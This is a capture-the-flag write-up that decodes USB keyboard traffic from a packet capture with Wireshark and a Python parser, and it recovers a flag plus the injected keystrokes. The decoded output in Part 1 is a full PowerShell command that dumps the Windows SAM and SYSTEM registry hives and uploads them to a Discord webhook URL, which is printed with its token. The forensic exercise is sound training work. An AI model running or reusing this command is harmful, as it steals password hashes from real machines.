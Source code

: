 ```yaml
---
title: "Midnight Quack - pwn.christmas"
date: 2024-12-23 00:00:00 -0800
categories: CTF pwn.christmas
tags: HID Wireshark ProtocolAnalysis
---
```



# Part 1

Challenges in this category will reference the same file(s).

What is the flag found in the file provided?

file provided **midnight_quack_pcap.pcapng**

## Solution

After opening up the file in wireshark we can see that most of the packets are USB Protocol.

After analyzing a bit , we can see that some of the usb packets have HID data, which contains arrays with the keyboard buttons pressed. As an example:

```
Frame 69: 35 bytes on wire (280 bits), 35 bytes captured (280 bits) on interface \\.\USBPcap2, id 0
    Section number: 1
    Interface id: 0 (\\.\USBPcap2)
    Encapsulation type: USB packets with USBPcap header (152)
    Arrival Time: Dec 20, 2024 05:30:19.250807000 Pacific Standard Time
    UTC Arrival Time: Dec 20, 2024 13:30:19.250807000 UTC
    Epoch Arrival Time: 1734701419.250807000
    [Time shift for this packet: 0.000000000 seconds]
    [Time delta from previous captured frame: 0.001965000 seconds]
    [Time delta from previous displayed frame: 0.001965000 seconds]
    [Time since reference or first frame: 5.327536000 seconds]
    Frame Number: 69
    Frame Length: 35 bytes (280 bits)
    Capture Length: 35 bytes (280 bits)
    [Frame is marked: False]
    [Frame is ignored: False]
    [Protocols in frame: usb:usbhid]
USB URB
    [Source: 2.5.1]
    [Destination: host]
    USBPcap pseudoheader length: 27
    IRP ID: 0xffff8584f6061a70
    IRP USBD_STATUS: USBD_STATUS_SUCCESS (0x00000000)
    URB Function: URB_FUNCTION_BULK_OR_INTERRUPT_TRANSFER (0x0009)
    IRP information: 0x01, Direction: PDO -> FDO
        0000 000. = Reserved: 0x00
        .... ...1 = Direction: PDO -> FDO (0x1)
    URB bus id: 2
    Device address: 5
    Endpoint: 0x81, Direction: IN
        1... .... = Direction: IN (1)
        .... 0001 = Endpoint number: 1
    URB transfer type: URB_INTERRUPT (0x01)
    Packet Data Length: 8
    [Request in: 62]
    [Time from request: 2.013981000 seconds]
    [bInterfaceClass: HID (0x03)]
HID Data: 0800150000000000
    .... ...0 = Key: LeftControl (0xe0): UP
    .... ..0. = Key: LeftShift (0xe1): UP
    .... .0.. = Key: LeftAlt (0xe2): UP
    .... 1... = Key: LeftGUI (0xe3): DOWN
    ...0 .... = Key: RightControl (0xe4): UP
    ..0. .... = Key: RightShift (0xe5): UP
    .0.. .... = Key: RightAlt (0xe6): UP
    0... .... = Key: RightGUI (0xe7): UP
    Padding: 00
    Array: 150000000000
        0001 0101 = Usage: Keyboard r and R (0x0007, 0x0015)
        0000 0000 = Usage: Reserved (no event indicated) (0x0007, 0x0000)
        0000 0000 = Usage: Reserved (no event indicated) (0x0007, 0x0000)
        0000 0000 = Usage: Reserved (no event indicated) (0x0007, 0x0000)
        0000 0000 = Usage: Reserved (no event indicated) (0x0007, 0x0000)
        0000 0000 = Usage: Reserved (no event indicated) (0x0007, 0x0000)

```

This packet shows us that `r` pressed. After analyzing the packet we can see that the packets tell us if shift was also pressed (`.... ..0. = Key: LeftShift (0xe1): UP`). so we can tell the difference between 6 and ^.

We can filter the packets by writing `usbhid.data.array != 00:00:00:00:00:00` which will give us only packets that have keyboard presses. now we can extract the data as a txt file.

To find what keys were pressed, I wrote a python code that will remove everything and only show what key was pressed, as an example from the packet above we would only get `r` since the shift key wasn't pressed.

The code:

```python
import re
def parse_hid_data(block):
    shift_key_down = re.search(r'Key: LeftShift.*DOWN|Key: RightShift.*DOWN', block) is not None
    array_pattern = re.compile(r'Array:\s+[0-9a-fA-F]+\n(\s+.*?Usage: Keyboard [^\n]+)')
    array_matches = array_pattern.findall(block)
    output = []
    for line in array_matches:
        usage_match = re.search(r'Usage: Keyboard (.*) \((.*)\)', line)
        if usage_match:
            description = usage_match.group(1)
            if " and " in description:
                if shift_key_down:
                    output.append(description.split(" and ")[1])
                else:
                    output.append(description.split(" and ")[0])
            elif description == "Spacebar":
                output.append(' ')
            elif description == "Underscore":
                output.append('_')
            else:
                output.append(description)
    return ''.join(output)
def process_file(input_file, output_file):
    with open(input_file, 'r') as file:
        content = file.read()
    blocks = content.split("Frame")
    results = []
    for block in blocks:
        if block.strip():
            result = parse_hid_data("Frame" + block)
            results.append(result)
    final_output = ''.join(results)
    with open(output_file, 'w') as out_file:
        out_file.write(final_output)
input_file = 'main.txt'
output_file = 'filter.txt'
process_file(input_file, output_file)


```

The output is:

``` powershell
drpowershell Start-Process powershell -Verb runAsReturn (ENTER)LeftArrowReturn (ENTER)Write-Host "Flag: pwn{h0tplug(underscore)att4ck5(underscore)g0(underscore)h4rd}"Return (ENTER)C:\Windows\System32\reg save HKLM\SAM sam /y; C:\Windows\System32\reg save HKLM\SYSTEM system /y; Add-Type -AssemblyName "System.Net.Http"; $webhookUrl = "https://canary.discord.com/api/webhooks/1319654236287664248/R(underscore)MTWcahrdmScK04fKoVd38U3hF69KSaB0DCGnMPjXyr5nIXhfeO29j3swBn-8qK3L0P"; $client = New-Object System.Net.Http.HttpClient; $fileStream1 = [System.IO.File]::OpenRead("sam"); $fileContent1 = New-Object System.Net.Http.StreamContent($fileStream1); $content1 = New-Object System.Net.Http.MultipartFormDataContent; $content1.Add($fileContent1, "file", "sam"); $client.PostAsync($webhookUrl, $content1).Result; $fileStream1.Close(); $fileStream2 = [System.IO.File]::OpenRead("system"); $fileContent2 = New-Object System.Net.Http.StreamContent($fileStream2); $content2 = New-Object System.Net.Http.MultipartFormDataContent; $content2.Add($fileContent2, "file", "system"); $client.PostAsync($webhookUrl, $content2).Result; $fileStream2.Close()Return (ENTER)d
```

(I forgot to switch underscore to _  but that's easy to do with hand)



flag is: `pwn{h0tplug_att4ck5_g0_h4rd}`

# Part 2

What is being exfiltrated from the endpoint where this capture was taken?

_Hint: We're looking for two file names._

## Solution

After we look at the output we got earlier, we can see the  `$content1.Add($fileContent1, "file", "sam"); $client.PostAsync($webhookUrl, $content1).Result; $fileStream1.Close(); $fileStream2 = [System.IO.File]::OpenRead("system");` part. which gives us two fiiles, sam and system

Answer : Sam, System

# Part 3

What URL were the SAM and SYSTEM files exfiltrated to?

## Solution

The output we got earlier gives us an URL: `https://canary.discord.com/api/webhooks/1319654236287664248/R_MTWcahrdmScK04fKoVd38U3hF69KSaB0DCGnMPjXyr5nIXhfeO29j3swBn-8qK3L0P`

Answer : `https://canary.discord.com/api/webhooks/1319654236287664248/R_MTWcahrdmScK04fKoVd38U3hF69KSaB0DCGnMPjXyr5nIXhfeO29j3swBn-8qK3L0P`




